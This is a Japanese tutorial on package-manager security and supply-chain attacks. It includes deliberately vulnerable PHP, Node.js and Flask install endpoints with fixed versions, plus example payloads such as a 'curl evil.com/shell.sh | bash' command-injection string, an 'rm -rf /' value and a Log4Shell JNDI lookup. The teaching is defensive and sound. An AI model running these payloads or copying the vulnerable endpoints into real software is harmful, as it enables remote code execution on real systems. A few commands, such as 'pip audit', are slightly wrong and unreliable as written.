





## TL;DR

- **パッケージ管理ツール**（apt・yum・dnf・pip・npm）はソフトウェアのインストール・更新・依存関係解決を自動化する。ただし**検証なしにパッケージをインストールすると、悪意あるコードをシステムに注入されるサプライチェーン攻撃**の被害を受ける。
- **依存関係（dependency）の混乱**が現代最大の脆弱性の一つだ。npm の場合、一つの依存パッケージが何百もの推移的依存を引き込む。攻撃者はこの複雑さを悪用してコードを潜り込ませる。
- パッケージのバージョンを**ロックファイル**（`package-lock.json`・`requirements.txt`・`composer.lock`）で固定し、**署名検証**と**既知脆弱性スキャン**を CI/CD に組み込むことが現代の防御標準だ。

---

## なぜ重要か

「パッケージマネージャは便利なツールを入れるだけのものでは？」

この問いに即答できないなら、この記事が助けになる。**パッケージ管理は現代ソフトウェア開発の根幹であり、同時にサプライチェーン攻撃の最大の標的だ。** パッケージ管理の仕組みを知れば、なぜ `npm install` 1 回でシステム全体が侵害されるケースが現実に起きているかが見えてくる。

具体的に挙げると：

- `pip install requirements.txt` で引き込まれる推移的依存の一つに悪意あるコードが含まれていても気づかずにデプロイする
- npm パッケージ名の 1 文字違い（タイポスクワッティング）で偽パッケージをインストールしてしまう
- `apt upgrade` を怠って既知の脆弱性が残った OpenSSL・libssl が本番環境で動き続ける
- ペネトレーションテストで `/etc/apt/sources.list` の設定ミスを発見して、パッケージマネージャ経由でバックドアを仕込む手順を理解する
- CTF の Web 問題で古い Flask・Django のバージョンに既知の RCE（リモートコード実行）脆弱性を悪用する

> **CTF とは**: Capture The Flag の略。セキュリティ技術を競う演習形式。
> **RCE（Remote Code Execution）とは**: リモートから任意コードを実行できる脆弱性。深刻度が最も高い部類に入る。

---

## 読む前に確認したい用語

難しい用語は出てきたタイミングで解説するが、以下の概念は記事全体を通して何度も登場する。ざっと目を通してから先に進もう。

**パッケージ管理の基礎**
- **パッケージ**: ソフトウェアとそのメタデータ（バージョン・依存関係・ライセンス等）をまとめたアーカイブファイル。
- **リポジトリ（repo）**: パッケージを配布するサーバー。`apt` なら `/etc/apt/sources.list` に登録する。
- **依存関係（dependency）**: あるパッケージが動作するために必要な他のパッケージ。インストール時に自動で解決される。
- **推移的依存（transitive dependency）**: 直接依存するパッケージが、さらに依存するパッケージ。依存の連鎖が深くなる。
- **ロックファイル（lock file）**: 実際にインストールされたパッケージの正確なバージョンとハッシュを記録するファイル。`package-lock.json`・`Pipfile.lock`・`composer.lock` など。

**各パッケージマネージャ**
- **apt（Advanced Package Tool）**: Debian・Ubuntu 系の Linux のパッケージマネージャ。`.deb` 形式のパッケージを扱う。
- **yum / dnf**: Red Hat・CentOS・Fedora 系の Linux のパッケージマネージャ。`.rpm` 形式。dnf は yum の後継。
- **pip（Pip Installs Packages）**: Python 公式のパッケージマネージャ。PyPI（Python Package Index）からインストールする。
- **npm（Node Package Manager）**: Node.js の標準パッケージマネージャ。npm レジストリ（registry.npmjs.org）からインストールする。

**セキュリティ用語**
- **サプライチェーン攻撃（Supply Chain Attack）**: ソフトウェアの開発・配布・更新プロセスに悪意あるコードを注入する攻撃。パッケージへの直接攻撃より検出が難しい。
- **タイポスクワッティング（Typosquatting）**: 正規パッケージ名に似た名前の偽パッケージを公開して、タイプミスでインストールさせる攻撃。
- **CVE**: Common Vulnerabilities and Exposures の略。世界共通の脆弱性識別番号。
- **CVSS**: Common Vulnerability Scoring System。脆弱性の深刻度を 0.0〜10.0 で評価する指標。

---

## 仕組み

### パッケージ管理の種類



OS 系パッケージマネージャ（apt・dnf）はシステム全体の DEB/RPM を管理し、言語系（pip・npm・composer）はプロジェクトごとのライブラリを管理する。両者は異なる信頼モデルを持つが、いずれもインストール時にコードが実行される点でサプライチェーン攻撃の標的になる。

---

### サプライチェーン攻撃フロー



攻撃者が偽パッケージをレジストリに公開し、利用者がインストールするだけで任意コードが走る。ハッシュ検証（`--require-hashes`・`npm ci`）が有効なら偽パッケージを検出して拒否できる。

---

### パッケージ管理の全体構造



パッケージ管理の本質は「信頼の委譲」だ。利用者はレジストリ・署名鍵・依存パッケージを信頼してコードを実行している。**攻撃者が狙うのはこの信頼の連鎖のどこか 1 箇所を乗っ取ることで、レジストリへの悪意あるパッケージ公開または署名検証のバイパスが典型的な手法だ。**

**計算量まとめ**

- **依存関係解決**: O(p × d)。p はパッケージ数・d は依存深度。複雑な依存グラフでは指数的になりうる（npm は SAT ソルバーを使う）。
- **署名検証（GPG）**: 実務上ほぼ一定時間。公開鍵でハッシュを検証する操作。署名対象データ長に依存するが通常は無視できる。
- **パッケージダウンロード**: O(s)。s はパッケージサイズ。ネットワーク帯域に依存。

**パッケージ管理の弱点 — 信頼の連鎖**

パッケージ管理は「レジストリを信頼する」という前提で動く。レジストリ自体やその配布経路が侵害されると、全ての利用者に悪意あるコードが配信される。2021 年の `ua-parser-js`・`coa`・`rc` の npm パッケージ侵害事件では、数百万のプロジェクトが影響を受けた。

---

### apt の動作フロー



apt の安全性は `Release` ファイルの GPG 署名検証と個別パッケージのハッシュ検証の二重チェックに依存している。どちらか一方を無効化するとサプライチェーン攻撃耐性が大きく低下する。

> **GPG（GNU Privacy Guard）とは**: 公開鍵暗号によるデジタル署名・暗号化ツール。`apt` は各リポジトリの公開鍵を使ってパッケージの改ざんを検出する。
> **MITM（Man-in-the-Middle）攻撃とは**: 通信の途中に攻撃者が割り込んで内容を盗聴・改ざんする攻撃。apt の署名検証はこれを防ぐために存在する。
> **`--allow-unauthenticated` とは**: apt の署名検証を無効化するオプション。本番環境・スクリプトでは絶対に使ってはならない。
> **`/etc/apt/sources.list.d/` とは**: 追加リポジトリの定義ファイルを保存するディレクトリ。ここに設定を追加することでサードパーティリポジトリを利用できる。

**計算量まとめ**

- **`apt update`**: O(r × f)。r はリポジトリ数・f は各リポジトリのファイル数。インデックスを更新する。
- **`apt install`**: O(d²)。d は依存パッケージ数。依存関係の充足性チェックに時間がかかる。

**apt の弱点 — サードパーティ PPA**

Ubuntu の PPA（Personal Package Archive）や外部リポジトリを `/etc/apt/sources.list.d/` に追加すると、そのリポジトリ管理者のパッケージが信頼される。悪意ある PPA を追加させる攻撃や、正規 PPA が乗っ取られた場合にシステム全体が危険にさらされる。

> **PPA（Personal Package Archive）とは**: Ubuntu のユーザーが独自パッケージを公開できる Launchpad のサービス。公式リポジトリより信頼性の審査が緩い。

---

### pip と npm の依存解決



直接依存が少なくても、推移的依存が数百個に膨れ上がることがある。`npm install` 一回で 1000 個以上のパッケージがインストールされるプロジェクトは珍しくない。利用者が直接指定する依存は少なくても、実際に導入されるコード量は推移的依存によって何倍にも膨れ上がる。サプライチェーン攻撃はこの見えにくい依存連鎖を狙う。

> **SAT ソルバーとは**: 複数の依存条件（バージョン制約）を同時に満たす組み合わせを探索するアルゴリズム。npm はこれを使って依存関係を解決する。依存が複雑になると計算時間が増加する。

**計算量まとめ**

- **推移的依存の展開**: O(n)。n は全依存パッケージ数。木構造をトポロジカルソートで解決。
- **ロックファイル検証**: O(n)。各パッケージのハッシュを一覧と照合。

> **トポロジカルソートとは**: 依存関係の有向グラフを「依存されるものが先」の順に並べるアルゴリズム。パッケージのインストール順序の決定に使う。

**pip と npm の弱点 — デフォルトでの実行権限**

`pip install` は `setup.py` を実行するため、インストール時点でパッケージのコードが実行される。npm は `package.json` の `scripts.postinstall` を自動実行する。どちらもインストールするだけで任意コードが走る仕組みだ。これがタイポスクワッティングやサプライチェーン攻撃で即座に被害が出る理由だ。

---

## よくある誤解

実装に進む前に、間違えやすいポイントを整理しておく。「あー、そうか」と思えるものがあれば、コードを書くときに思い出してほしい。

**「`apt update` でパッケージが最新になる」**
`apt update` はリポジトリのインデックスを更新するだけで、**パッケージ自体はインストール・更新されない**。実際の更新は `apt upgrade`（または `apt full-upgrade`）が必要だ。`update` と `upgrade` はセットで使う。

**「`pip install -r requirements.txt` でバージョンが固定される」**
`requirements.txt` にバージョン指定（`==` や `>=`）が書かれていれば固定されるが、**バージョン指定なしの `flask` のような記述は最新版がインストールされる**。ロックファイル（`pip freeze > requirements.txt` の出力）を使って全パッケージのバージョンを `==` で固定するのが正しい。

**「npm の `^` バージョン指定は安全」**
`package.json` の `"express": "^4.17.1"` は「4.x.x の最新版」を許容する。マイナーアップデートが自動適用されるため、**依存パッケージのサプライチェーン攻撃の影響を受けやすい**。`package-lock.json` をコミットして `npm ci`（clean install）で厳密にバージョンを固定する運用が安全だ。

**「公式リポジトリのパッケージは安全」**
PyPI・npm レジストリは誰でもパッケージを公開できる。正規パッケージに似た名前の偽パッケージ（タイポスクワッティング）が定期的に発見されている。**「公式レジストリにある = 安全」ではない。** パッケージ名・ダウンロード数・公開者・ソースコードを確認する習慣が必要だ。

**「`sudo pip install` は問題ない」**
`sudo pip install` はシステムの Python 環境にグローバルインストールする。パッケージのインストールスクリプトが root として実行されるため、**悪意あるパッケージをシステム全体に影響する権限で走らせる**。`venv`（仮想環境）内の `pip install` か、`pip install --user` を使う。

> **`venv` とは**: Python の仮想環境（virtual environment）。プロジェクトごとに隔離されたパッケージ空間を作り、グローバル環境を汚染しない。`python -m venv .venv && source .venv/bin/activate` で作成・有効化する。

---

## 脆弱なコード例

> 本記事の攻撃例は学習環境・CTF・明示的に許可された検証環境のみで実施してください。
> 実システムへの無断検証は不正アクセス禁止法や各国法令・利用規約違反となる可能性があります。

### PHP — Composer で未検証の外部パッケージを動的に追加する

```php
<?php
$package = $_GET['package'] ?? '';
$version = $_GET['version'] ?? 'latest';

if (!empty($package)) {
    $cmd = "composer require {$package}:{$version} 2>&1";
    $output = shell_exec($cmd);
    echo "<pre>" . htmlspecialchars($output ?? '') . "</pre>";
}
```

> **Composer とは**: PHP のパッケージ管理ツール。`composer.json` に依存関係を記述して `composer install` でインストールする。
> **`$_GET['package']`**: HTTP GET リクエストのクエリパラメータ `package` の値を取得する PHP の超グローバル変数。

**どこが問題か**: `?package=vendor/evil-package` を送るだけで攻撃者が公開した任意の Composer パッケージがインストールされる。`?package=vendor/legit-package; rm -rf /;` のようにシェルインジェクションも成立する。Composer インストール時に `composer.json` の `scripts` フックが root として実行される可能性があり、システム全体が即座に侵害される。

```php
<?php
session_start();

if (!isset($_SESSION['admin']) || $_SESSION['admin'] !== true) {
    http_response_code(403);
    exit("管理者権限が必要です");
}

$allowed_packages = [
    'monolog/monolog' => '^3.0',
    'guzzlehttp/guzzle' => '^7.0',
    'symfony/console' => '^6.0',
];

$package = $_POST['package'] ?? '';

if (!array_key_exists($package, $allowed_packages)) {
    http_response_code(400);
    exit("許可されていないパッケージです");
}

$version = $allowed_packages[$package];
$safe_pkg = escapeshellarg("{$package}:{$version}");
$output = shell_exec("composer require {$safe_pkg} --no-interaction 2>&1");
echo "<pre>" . htmlspecialchars($output ?? '') . "</pre>";
```

> **`--no-interaction`**: Composer でインタラクティブな入力なしに実行するオプション。自動化スクリプトでの使用を想定している。

パッケージ名と許可バージョンを完全にホワイトリストで管理し、管理者認証を経由することで、任意パッケージのインストールとシェルインジェクションを防ぐ。

パッケージの追加はユーザー入力ではなく管理者が承認したホワイトリストからのみ行うことが、サプライチェーン攻撃防止の基本原則だ。

---

### Node.js — ユーザー入力でパッケージを動的インストールする

```javascript
const { execSync } = require('child_process');
const express = require('express');
const app = express();
app.use(express.json());

app.post('/install', (req, res) => {
    const { packageName } = req.body;
    const result = execSync(`npm install ${packageName}`, { encoding: 'utf8' });
    res.json({ output: result });
});

app.listen(3000);
```

**どこが問題か**: `packageName` に `evil-package && curl evil.com/shell.sh | bash` を渡すだけでシェルインジェクションが成立する。また `evil-package` が正規パッケージに似た名前の悪意あるパッケージなら、インストール時の `postinstall` スクリプトが実行されてバックドアが仕込まれる。npm パッケージのインストールはコードの実行であることを忘れてはならない。

```javascript
const { execFile } = require('child_process');
const express = require('express');
const app = express();
app.use(express.json());

const ALLOWED_PACKAGES = new Map([
    ['lodash', '4.17.21'],
    ['axios', '1.6.0'],
    ['dayjs', '1.11.10'],
]);

app.post('/install', (req, res) => {
    const { packageName } = req.body;

    if (!ALLOWED_PACKAGES.has(packageName)) {
        return res.status(400).json({ error: '許可されていないパッケージです' });
    }

    const exactVersion = ALLOWED_PACKAGES.get(packageName);
    const packageSpec = `${packageName}@${exactVersion}`;

    execFile('npm', ['install', '--ignore-scripts', packageSpec], (err, stdout) => {
        if (err) return res.status(500).json({ error: 'インストール失敗' });
        res.json({ output: stdout });
    });
});

app.listen(3000);
```

> **`--ignore-scripts`**: npm のオプションで、パッケージの `scripts`（`preinstall`・`postinstall` 等）を実行しないようにする。サプライチェーン攻撃で最もリスクが高い「インストール時コード実行」を防ぐ重要なオプションだ。
> **`execFile()` とは**: Node.js でシェルを経由せずに直接プログラムを実行する関数。配列で引数を渡すためシェルのメタ文字が解釈されない。

パッケージ名とバージョンをホワイトリストで完全固定し、`--ignore-scripts` で実行フックを無効化し、`execFile()` でシェルを排除することで、サプライチェーン攻撃とコマンドインジェクションを同時に防ぐ。

npm パッケージのインストールはコードの実行と同義であり、ホワイトリストとスクリプト無効化を前提とした設計が必要だ。

---

### Python — requirements.txt をバージョン固定なしで使う

```python
import subprocess
import sys
from flask import Flask, request

app = Flask(__name__)

@app.route('/install')
def install_package():
    package = request.args.get('package', '')

    result = subprocess.run(
        [sys.executable, '-m', 'pip', 'install', package],
        capture_output=True,
        text=True
    )
    return result.stdout + result.stderr
```

> **`sys.executable` とは**: 現在実行中の Python インタプリタのフルパス。`/usr/bin/python3` や `.venv/bin/python` のようなパス。`python -m pip` の代わりに `sys.executable -m pip` を使うことで、現在の仮想環境の pip を確実に呼び出せる。

**どこが問題か**: `?package=requests` のような正規パッケージなら問題ないが、`?package=requsts` のような 1 文字違いの偽パッケージ名を送るだけで悪意あるパッケージがインストールされる。パッケージ名のバリデーションが一切ないため、タイポスクワッティングや悪意あるパッケージの導入が自由に行える。Web アプリケーションがパッケージインストールのエンドポイントを公開すること自体が危険だ。

```python
import subprocess
import sys
import os
from flask import Flask, request, abort

app = Flask(__name__)

ALLOWED_PACKAGES = {'requests', 'httpx'}
REQUIREMENTS_DIR = '/opt/app/requirements'

@app.route('/install')
def install_package():
    package = request.args.get('package', '')

    if package not in ALLOWED_PACKAGES:
        abort(400)

    requirements_file = os.path.join(REQUIREMENTS_DIR, f'{package}.txt')
    if not os.path.isfile(requirements_file):
        abort(500)

    result = subprocess.run(
        [sys.executable, '-m', 'pip', 'install',
         '--require-hashes', '--no-deps', '-r', requirements_file],
        capture_output=True,
        text=True,
        timeout=60
    )

    if result.returncode != 0:
        abort(500)
    return 'インストール完了'
```

> **`--require-hashes` とは**: pip で requirements ファイル内の全パッケージのハッシュ検証を必須にするオプション。ハッシュが一致しないパッケージはインストールを拒否する。`pip-compile --generate-hashes` で生成した requirements ファイルと組み合わせて使う。
> **`--no-deps`**: pip のオプションで、依存パッケージをインストールしないようにする。意図しない推移的依存の追加を防ぐ。

パッケージ名・バージョン・ハッシュを全て requirements ファイルで管理し、外部入力からインストール内容を決定しないことで、タイポスクワッティングとサプライチェーン攻撃の両方を防ぐ。

パッケージ名・バージョン・ハッシュの三要素を固定し、外部入力から依存関係を決定しない設計が、pip ベースのサプライチェーン攻撃防止の基本原則だ。

---

## 実践例 / 演習例

### apt / yum の基本操作

```bash
sudo apt update
sudo apt upgrade -y
sudo apt install nginx curl git -y
sudo apt autoremove -y
sudo apt list --installed | grep nginx
```

> **`apt update`**: リポジトリのパッケージリストを最新の状態に更新する（パッケージ自体はまだ更新しない）。
> **`apt upgrade -y`**: 利用可能な全パッケージを最新版に更新する。`-y` はすべての確認に「はい」と自動応答するオプション。
> **`apt autoremove`**: 不要になった依存パッケージを自動削除する。ディスク節約に有用。

```bash
sudo yum update -y
sudo yum install httpd -y
sudo dnf upgrade --refresh
```

> **`yum` と `dnf`**: CentOS 7 以前は `yum`、CentOS 8・RHEL 8・Fedora 以降は `dnf` を使う。基本的なサブコマンドは互換性がある。`--refresh` は更新前にキャッシュを再構築する。

### pip の安全な使い方

```bash
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
pip freeze > requirements-lock.txt
```

> **`python3 -m venv .venv`**: プロジェクト用の仮想環境を `.venv` ディレクトリに作成する。`-m venv` はモジュールとして venv を実行する記法。
> **`source .venv/bin/activate`**: 仮想環境を有効化する。これ以降の `pip install` は仮想環境内にインストールされる。

```bash
pip install --require-hashes -r requirements.txt
pip audit
```

> **`pip audit` とは**: インストール済みパッケージの既知脆弱性（CVE）をチェックするツール（`pip install pip-audit` でインストール）。本番デプロイ前の必須チェックだ。

### npm の安全な使い方

```bash
npm ci
npm audit
npm audit fix
npm ls --depth=0
```

> **`npm ci` とは**: `package-lock.json` から厳密にバージョンを固定してインストールするコマンド（clean install の略）。`npm install` と異なり `package-lock.json` を変更しない。CI/CD パイプラインでは必ず `npm ci` を使う。
> **`npm audit` とは**: インストール済みパッケージの既知脆弱性を npm セキュリティアドバイザリデータベースで確認するコマンド。高・中・低の深刻度で脆弱性を一覧表示する。

```bash
npx depcheck
```

> **`depcheck` とは**: `package.json` に書かれているが実際には使われていない依存や、使われているが `package.json` に書かれていない依存を検出するツール（`npx` はインストールなしで npm パッケージを実行するコマンド）。

### セキュリティ監査コマンド

```bash
pip list --outdated
npm outdated
sudo apt list --upgradeable
```

> **`pip list --outdated`**: 現在インストールされているパッケージのうち、新しいバージョンが存在するものを一覧表示する。
> **`npm outdated`**: `package.json` の指定と `package-lock.json` のバージョンを比較して、更新可能なパッケージを表示する。

```bash
find / -name "requirements.txt" 2>/dev/null | xargs grep -l "==\|>=" | head -20
```

> **`xargs grep -l`**: `find` で見つかった各ファイルの中から条件にマッチするものだけを一覧表示する。`-l` は「マッチしたファイル名だけ出力」オプション（list）。

---

## 防御策

### 1. パッケージのバージョンを固定してロックファイルを使う

```bash
pip freeze > requirements.txt
```

```
flask==3.0.0
werkzeug==3.0.1
jinja2==3.1.2
```

```bash
npm install
git add package-lock.json
```

ロックファイルをリポジトリにコミットして、全開発者・CI/CD 環境で同じバージョンを使う。

### 2. CI/CD にセキュリティスキャンを組み込む

```yaml
steps:
  - name: pip audit
    run: |
      pip install pip-audit
      pip-audit -r requirements.txt

  - name: npm audit
    run: npm audit --audit-level=high

  - name: trivy scan
    run: trivy fs --exit-code 1 --severity HIGH,CRITICAL .
```

> **Trivy とは**: コンテナイメージ・ファイルシステム・Git リポジトリの脆弱性・設定ミスをスキャンするオープンソースツール（`apt install trivy` でインストール）。`--exit-code 1` で脆弱性発見時にパイプラインを失敗させる。

### 3. サードパーティリポジトリの追加を最小限にする

```bash
ls -la /etc/apt/sources.list.d/
cat /etc/apt/sources.list.d/*.list
sudo apt-key list
```

不審な PPA・サードパーティリポジトリを確認して削除する。

```bash
sudo add-apt-repository --remove ppa:suspicious/repo
```

### 4. npm パッケージのインストール時スクリプトを無効化する

```bash
npm install --ignore-scripts
```

または `.npmrc` に設定する：

```
ignore-scripts=true
```

### 5. Python の依存関係をハッシュ付きで固定する

```bash
pip-compile --generate-hashes requirements.in > requirements.txt
pip install --require-hashes -r requirements.txt
```

> **`pip-compile` とは**: `pip-tools` パッケージが提供するツール。高レベルの依存記述（`requirements.in`）から全推移的依存を含む固定バージョン・ハッシュ付きの `requirements.txt` を生成する。`pip install pip-tools` でインストールする。

---

## 実演ラボ案内

### 推奨学習順序

- linux-permissions（パッケージインストール先のパーミッション理解）
- bash-scripting-basics（パッケージ管理スクリプトの読み方）
- package-management（本記事）
- network-fundamentals（リポジトリへの通信経路の理解）

### Hack The Box

- **Challenges — Web カテゴリ**: 古いバージョンのフレームワーク（Flask・Django・Rails）の既知 CVE を悪用する問題が出題される。`pip show flask` でバージョンを確認して CVE を検索する手順が基本だ。
- **Machines**: パッケージマネージャの設定ファイル（`/etc/apt/sources.list`・`~/.npmrc`）に機密情報や設定ミスが残っているケースがある。

### TryHackMe

- **Software Supply Chain Security**: npm・pip のサプライチェーン攻撃の手法と防御を体験できる。
- **Dependency Confusion**: 内部パッケージと公開パッケージの名前衝突を悪用するディペンデンシーコンフュージョン攻撃を演習できる。

> **ディペンデンシーコンフュージョン（Dependency Confusion）攻撃とは**: 企業が内部で使うプライベートパッケージ名を PyPI・npm レジストリに同名で公開し、パッケージマネージャが公開リポジトリを優先してインストールしてしまう脆弱性を悪用する攻撃手法。

### 自宅 VM（合法演習）

```bash
sudo apt install docker.io
docker run -it --rm python:3.12-slim bash
pip install requests==2.28.2
pip audit
```

> **`docker run -it --rm python:3.12-slim bash`**: Python 3.12 の軽量コンテナを対話的（`-i` interactive・`-t` tty）に起動し、終了後に削除（`--rm`）する。ホスト OS に影響なく pip の挙動を試せる。

---

## 関連 CVE と被害事例

> **CVE とは**: Common Vulnerabilities and Exposures の略。世界共通の脆弱性識別番号。
> **CVSS スコア**: 脆弱性の深刻度を 0.0〜10.0 で評価した指標。7.0 以上が High・9.0 以上が Critical。

**CVE-2021-44228（Apache Log4j — Log4Shell）**
Java のログライブラリ `Log4j 2` に JNDI（Java Naming and Directory Interface）インジェクションの脆弱性があり、ログに記録される文字列に `${jndi:ldap://evil.com/a}` を含めるだけでリモートから Java クラスをロードしてコードを実行できた。この脆弱性が広く使われた理由の一つが、直接使っていなくても他のライブラリが `Log4j` を推移的依存として引き込んでいたためだ。脆弱なバージョン（2.14.1 以前）を含む Maven・Gradle パッケージが世界中で数億個使われていた。攻撃前提: ネットワーク到達性のみ（認証不要）。CVSS スコア 10.0（Critical）。本記事との関連: 推移的依存・パッケージバージョン管理

**CVE-2022-24765（Git — 安全でないディレクトリの所有者チェック欠如）**
Git がリポジトリの所有者を確認せずに処理を実行する問題があり、別ユーザーが所有するディレクトリ内でコマンドを実行すると、そのディレクトリの `malicious/.git/config` に書かれた任意コードが実行された。開発環境で複数ユーザーが共有するリポジトリで `git clone`・`pip install` 等を実行すると被害を受けた。攻撃前提: 共有ディレクトリへの書き込み権限。CVSS スコア 7.8（High）。本記事との関連: パッケージインストール時のコード実行・ディレクトリパーミッション

**CVE-2018-1002105（Kubernetes — API Server の特権昇格）**
これはパッケージ管理の脆弱性ではないが、`kubectl` パッケージ（Kubernetes クライアントツール）の古いバージョンと API サーバーの組み合わせで特権昇格が可能だった事例として、パッケージのバージョン管理の重要性を示す。ツールの古いバージョンを使い続けることのリスクを示す典型例だ。攻撃前提: Kubernetes クラスターへの認証済みアクセス。CVSS スコア 9.8（Critical）。本記事との関連: パッケージバージョン管理・更新の重要性

---

## 次に学ぶべき記事

- **network-fundamentals** — リポジトリへの通信・MITM 攻撃・TLS の基礎
- **linux-permissions** — パッケージインストール先のパーミッション・SUID の危険性
- **process-service-management** — パッケージがインストールするサービスの管理と監視

---

## 参考文献

- Debian. "apt-secure(8) Manual". https://manpages.debian.org/apt-secure
- Python. "pip Documentation". https://pip.pypa.io/en/stable/
- npm. "npm-audit Documentation". https://docs.npmjs.com/cli/v9/commands/npm-audit
- OWASP. "A06:2021 – Vulnerable and Outdated Components". https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/
- NVD. "CVE-2021-44228 Detail (Log4Shell)". https://nvd.nist.gov/vuln/detail/CVE-2021-44228
- NVD. "CVE-2022-24765 Detail". https://nvd.nist.gov/vuln/detail/CVE-2022-24765
- NVD. "CVE-2018-1002105 Detail". https://nvd.nist.gov/vuln/detail/CVE-2018-1002105
- Sonatype. "2023 State of the Software Supply Chain". https://www.sonatype.com/state-of-the-software-supply-chain
